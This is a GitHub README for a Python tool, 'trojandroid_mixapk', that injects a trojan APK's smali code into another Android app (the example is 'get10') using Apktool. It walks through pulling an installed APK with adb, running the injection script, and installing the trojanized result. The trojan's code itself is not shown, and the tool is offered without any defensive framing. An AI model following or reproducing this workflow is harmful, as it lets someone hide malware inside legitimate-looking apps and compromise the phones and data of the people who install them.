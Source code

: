 Entire README here https://github.com/remijouannet/trojandroid_app
--
trojandroid_mixapk
==

So this is a python script who use the wonderful [APKTOOL](https://ibotpeaches.github.io/Apktool/) to inject the trojan into another APK.

the script unpack the two APK, copy and modify the smali code of the trojan into get10 package, a few modification in the manifest is of course necessary, after this get10 can be repack, install and use without any problem.

the help message of the script

>\#  python mixapk.py -h

```
usage: mixapk.py [-h] [--apks trojanApk apkToInfect] [--adb]

ACTION

optional arguments:
  -h, --help            show this help message and exit
 --apks trojanApk apkToInfect specify the Trojan Apk and the APk to Infect
 --adb                 install the final APK with adb
```

So you have to have the Trojan APK and an APK of another app ([get10](https://play.google.com/store/apps/details?id=com.remijouannet.get10) for this example)
([a little howto I find to extract an installed app of your phone](http://codetheory.in/get-application-apk-file-from-android-device-to-your-computer/))

>  \# ./adb shell pm list packages | grep get10

```
package:com.remijouannet.get10
```

>  \# ./adb shell pm path com.remijouannet.get10

```
package:/data/app/com.remijouannet.get10-1/base.apk
```

>  \# ./adb pull /data/app/com.remijouannet.get10-1/base.apk && mv base.apk /tmp/

```
7544 KB/s (3117111 bytes in 0.403s)
```

>  \# mixapk.py --apks /PathTotrojandroid_app/app/build/outputs/apk/app-debug.apk /tmp/base.apk

let's do the magic.
if you didn't have any errors, you should find a file "app-final.pak" in your current directory.

if you have your phone in debug mode, you can push the apk to it with a simple adb command:

>\# adb install app-final.apk
